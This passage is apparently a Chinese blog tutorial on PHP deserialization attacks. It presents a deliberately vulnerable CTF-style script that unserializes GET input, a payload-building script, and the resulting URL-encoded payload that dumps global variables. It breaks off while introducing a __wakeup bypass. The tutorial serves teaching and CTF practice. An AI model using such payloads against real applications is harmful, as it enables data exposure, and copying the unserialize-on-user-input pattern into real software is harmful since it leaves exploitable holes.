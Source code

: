 ```yaml
---
title: PHP反序列化
author: CMACCKK
date: 2021-06-05 23:04:03
tags: [php反序列化]
---
```

## 最简单的反序列化

```php
<?php
	require_once('flag.php');
	highlight_file(__FILE__);
	class A{
		private $user = 'test';

		function __destruct(){
			if ($this->user == 'admin') {
				var_dump($GLOBALS);
			}
		}
	}

	$data = $_GET['data'];
	unserialize($data);
```

当我们反序列化后 `user`为 `admin`时输出 `$GLOBALS`，输出当前 `php`页面全局变量

我们构造 `payload`如下

```php
<?php
    class A{
        private $user = 'admin';
    }

    echo urlencode(serialize(new A()));
```

运行获得 `url`编码 `序列化`后的值为 `O%3A1%3A%22A%22%3A1%3A%7Bs%3A7%3A%22%00A%00user%22%3Bs%3A5%3A%22admin%22%3B%7D`

将其赋值给 `data`后即可输出 `全局变量`

![image-20210605224100230](phpUnserialize/image-20210605224100230.png)

## __wakeup绕过

在反反序列化时，如果 `表示对象属性个数的值`大于 `真实的属性个数时`就会跳过 `__wakeup( )`的执行。

影响版本
